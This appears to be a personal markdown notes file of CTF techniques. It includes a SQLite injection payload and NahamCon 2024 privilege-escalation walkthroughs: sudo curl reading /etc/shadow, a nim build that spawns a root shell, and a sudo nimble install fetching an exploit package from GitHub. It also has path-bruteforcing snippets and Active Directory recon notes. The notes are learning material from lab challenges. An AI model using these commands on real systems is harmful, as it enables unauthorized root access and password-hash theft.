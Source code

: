 # This is a file, in wich i'll include things i didn't know and or find

But found interesting after reading some write-ups

## apps


- https://play.google.com/store/apps/details?id=com.arara.q


## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--


## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./challenges/pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using `sudo curl 127.0.0.1:8000/health-check file:///etc/shadow`.
Then we can crack the hashes of the machine and pawn it.

See https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./challenges/pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./challenges/pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with ```sudo -l``` and we can see we can use ```sudo nimble install *``` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
```tail -n 75 self_extractor > result```

### Iframe bruteforcing

```javascript
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}```

### Fetch Enumerating

```javascript
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}(
```

### Curl Enumerating

- curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n

### Kerberos, dns, ldap, msrpc notes

Kerberos protocol uses port 88(tcp and udp),
so doing a nmap for port 88 could expose the domain controller

Dns runs on port 53 (udp default, when message is to big tcp)
nslookup {ip} returns a domain
nslookup {domain} returns an ip

ldap runs on port 389 or with over ssl over port 636
ad to ldap is like apache to http

ntlm hashes
